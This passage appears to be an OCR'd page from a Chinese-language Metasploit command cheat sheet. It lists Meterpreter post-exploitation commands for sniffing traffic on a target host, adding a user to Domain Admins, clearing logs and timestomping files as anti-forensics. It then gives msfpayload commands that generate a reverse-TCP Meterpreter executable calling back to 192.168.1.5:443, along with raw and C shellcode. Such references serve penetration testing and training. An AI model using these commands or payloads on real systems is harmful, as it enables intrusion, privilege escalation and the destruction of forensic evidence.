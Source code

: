 use sniffer

加载嗅探模块

sniffer_interfaces

列出目标主机所有开放的网络接口

sniffer_dump interfaceID pcapname

在目标主机上启动嗅探

sniffer_start interfaceID pcaket-buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探

sniffer_stats interfaceID 

获取正在实施嗅探网络接口的统计数据

sniffer_stop interfaceID 

停止嗅探

add_user username password -h ip

在远程目标主机上添加一个用户

add_group_user "Domain Admins" username -h ip

将用户添加到目标主机的域管理员组中

clearv

清除目标主机上的日志记录

timestomp

修改文件属性，例如修改文件的创建时间（反取证调查）

reboot

重启目标主机

三、MSF payload命令
msfpayload -h

MSFpayload的帮助信息

msfpayload windows/meterpreter/bind_tcp O

列出攻击载荷的配置项（任何攻击载荷都可以配置）

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X > payload.exe

创建一个Meterpreter的reverse_tcp攻击载荷，回连到192.168.1.5的443端口，将其保存为payload.exe的Windows可执行程序

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R > payload.raw

生成原始格式的文件，该文件将在MSFencode中使用。

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 C > payload.c

生成C格式的shellcode
